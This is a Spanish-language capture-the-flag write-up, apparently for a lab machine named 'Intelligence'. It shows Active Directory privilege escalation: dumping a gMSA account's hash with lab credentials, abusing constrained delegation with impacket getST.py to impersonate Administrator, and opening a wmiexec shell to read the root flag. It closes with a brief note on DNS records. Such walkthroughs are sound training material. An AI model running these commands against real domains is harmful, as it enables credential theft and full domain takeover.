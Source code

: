 Los usaurios del grupo **Group Managed Service Accounts** (GMSA, o sea svc_int) sus contraseñas son gestionadas y cambiadas cada cierto tiempo automaticamente 
(MSDS-ManagedPasswordInterval) por los Domain Controllers (en nuestro caso el grupo ITSupport), es decir estos leen la contraseña del GMSA y pueden impersonarlo 
por tanto. 
El GMSA suele estar logueado en el sistema, y si no, suele haber un demonio (tarea programada) que actue por él.

Para el ataque necesitamos ciertos datos: 
- Reloj a la hora de la maquina -> ```sudo service virtualbox-guest-utils stop; sudo ntpdate -s 10.10.10.248```  
- Allowed to delegate -> Bloodhound svc_int (usuario GMSA) Allowed To Delegate -> spn (WWW/dc.intelligence.htb)  
- Nombre de la computadora del GMSA -> ```pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248 -> svc_int.intelligence.htb```  
- Hash del GMSA -> ```python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb # svc_int$:::80c1d73...```  

```console
└─$ python3 /usr/share/doc/python3-impacket/examples/getST.py -spn WWW/dc.intelligence.htb \
-impersonate Administrator intelligence.htb/svc_int -hashes :80c1d736d9988b5763b9aa74362db287
# Hacemos que nuestro svc_int impersona al admin
└─$ export KRB5CCNAME=administrator.ccache
└─$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass dc.intelligence.htb
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator
C:\Users\Administrator\Desktop>type root.txt
b5ce8b6b098f4b16facfb68f95a8a38f
```
----------------------------------
## Extra Registros DNS

Los registros DNS (o archivos de zona) son archivos de instrucciones dentro de los servidores DNS que contienen información de un dominio (web), como su IP 
y su manera de gestionar las solicitudes.  

Estos registros son archivos de archivos de texto escritos en sintaxis DNS (un lenguaje propio de comandos que le indica que hacer al DNS).   
Todos los registros DNS tienen también un "TTL", que quiere decir "time-to-live" e indica con qué frecuencia el servidor DNS actualizará ese registro.  

- Registro A: registro que contiene la dirección IP de un dominio, es el mas sencillo.  
- AAAA: igual pero para ipv6  
